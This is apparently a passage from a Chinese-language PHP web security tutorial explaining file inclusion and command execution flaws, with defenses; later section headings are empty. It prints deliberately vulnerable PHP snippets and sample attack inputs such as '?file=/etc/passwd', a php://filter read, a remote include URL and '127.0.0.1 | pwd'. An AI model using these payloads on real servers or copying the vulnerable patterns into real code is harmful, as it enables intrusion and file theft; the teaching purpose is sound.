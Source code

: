 ### 本地文件包含
PHP 包含文件时不会在意文件的类型，都会当作 PHP 代码执行，故可以通过改变包含的文件请求来读取系统中的敏感文件，譬如代码：

```php
<?php
    include($_GET['file']);
?>
```

URL 注入 `?file=/etc/passwd`，可读取系统的密码文件。
通过 PHP 伪协议 php://filter 可进行任意文件的读取。

### 远程文件包含
若 PHP 配置中 allow_url_include、allow_url_fopen 选项配置为 on，则可直接进行远程文件包含。如在 URL 注入：`?file=http://192.168.17.138/code.txt` 可直接远程读取该文件。

## 2.8 代码执行漏洞
**漏洞成因**     
PHP 中可以调用系统命令函数：

* `system()`：执行系统命令，输出执行结果。
* `passthru()`：与 `system()`函数相似。
* `exec()`：执行系统命令，无回显，返回最后一行结果。
* `shell_exec()`：执行系统命令，返回完整的输出结果。
* `popen(command, mode)`：command 为执行的命令，mode 规定连接模式，可以是 r（只读）、w（只写）等。
* `proc_open()`：不直接返回执行结果，返回一个文件指针。
* `pcntl_exec()`：执行发生错误返回 FALSE，无错误不返回。

命令执行的例子：

```php
<?php
    $ip = $_GET["ip"];
    $command = "ping -c 3 $ip";
    system("$command");
?>
```

以上代码存在代码执行漏洞，攻击者可以使用命令连接符连接自己想要执行的系统命令，如注入 `?ip = 127.0.0.1 | pwd` 可显示当前网页在服务器中的路径。

**防护**

* `escapeshellarg()` 函数：给字符串增加一个单引号且能够引用或者转码任何已经存在的单引号，以确保能够直接将一个字符串传入 shell 函数。
* `escapeshellcmd()` 函数：对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义，保证用户输入的数据在传送到 `exec()` 函数或执行操作符前进行转义。
* 黑名单过滤特殊字符或替换字符。

## 2.9 CSRF 漏洞

## 2.10 SSRF 漏洞

## 2.11 不安全的反序列化
